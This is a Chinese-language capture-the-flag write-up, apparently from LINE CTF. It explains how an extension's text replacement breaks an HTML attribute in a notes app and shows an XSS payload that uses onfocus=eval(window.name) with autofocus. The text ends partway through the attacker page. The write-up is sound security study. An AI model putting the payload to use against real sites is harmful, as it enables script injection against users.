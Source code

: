 ``` html
<li>
  <div class="rotate-1 yellow-bg">
    <p>{content}</p>
  </div>
</li>
```

假設我建立了兩個 note，第一個內容是 `" id=a x="`，第二個是 `LINECTF{rotate-1 yellow-bg"}`

HTML 內容就會變成：

``` html
<li>
  <div class="rotate-1 yellow-bg">
    <p>" id=a x="</p>
  </div>
</li>
<li>
  <div class="rotate-1 yellow-bg">
    <p>LINECTF{rotate-1 yellow-bg"}</p>
  </div>
</li>
```

其實 `"` 在後端一樣會被編碼，所以直接看 source 的話會看到 `&#34;`，但如果是用 `document.body.innerHTML`，或許是瀏覽器覺得沒必要 encode，就會看到雙引號，而不是 `&#34;`，所以雙引號的編碼反倒沒作用了。

接著 extension 介入，把 `rotate-1 yellow-bg"` 變成 *** 之類的字，就變成：

``` html
<li>
  <div class="xxx>
    <p>" id=a x="</p>
  </div>
</li>
<li>
  <div class="xxx>
    <p>LINECTF{xxx}</p>
  </div>
</li>
```

稍微調整一下新的結構：

``` html
<li>
  <div class="xxx><p>" id=a x="</p></div></li><li><div class=" xxx>
    <p>LINECTF{xxx}</p>
  </div>
</li>
```

前面的一個雙引號被取代掉，跟原本內容開頭的雙引號結合，最後面的 `x="` 則跟下一個結合，而中間的 id=a 順利變成了屬性的一部分。

換句話說，我們可以對 div 插入任意屬性，就能利用 focus 的功能做出 XSS，底下是在 Discord 中 Renwa 給的 payload：

```
note 1:
"tabindex="1"onfocus="eval(window.name)"style="position:relative;height: 20000px; width: 20008px;"autofocus="1"id="jj"x="

note 2:
LINECTF{rotate-1 yellow-bg"}

Report:
@domain.wtf/0ff.html

Contents of 0ff.html:
<!DOCTYPE html>
```